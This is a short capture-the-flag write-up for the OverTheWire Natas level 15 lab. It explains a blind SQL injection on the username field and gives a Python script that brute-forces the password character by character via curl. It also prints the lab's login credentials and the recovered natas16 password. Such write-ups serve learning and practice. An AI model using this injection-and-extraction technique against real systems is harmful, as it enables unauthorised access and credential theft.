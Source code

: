 # natas16

SQL injection.

View source page and find that the username is a SQL injection point. Noticed that the database only consists of username and password, we can brute force any password existing in the database one character at a time.

The following automated program is a DFS example that works for this challenge:

```python
import commands


def search(password):
if len(password) <= 32:
words = “ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234568790”
for c in words:
newpassword = password + c
sql = ‘curl -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/index.php\?debug\=aa\&username\=\\\”%20or%20binary%20password%20like%20\\\”‘ + newpassword + ‘%’
return_code, output = commands.getstatusoutput(sql)
if output.find(‘exists’) > 0:
print(newpassword)
search(newpassword)


search(”)
```

Side note: The username of this password is natas16

Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
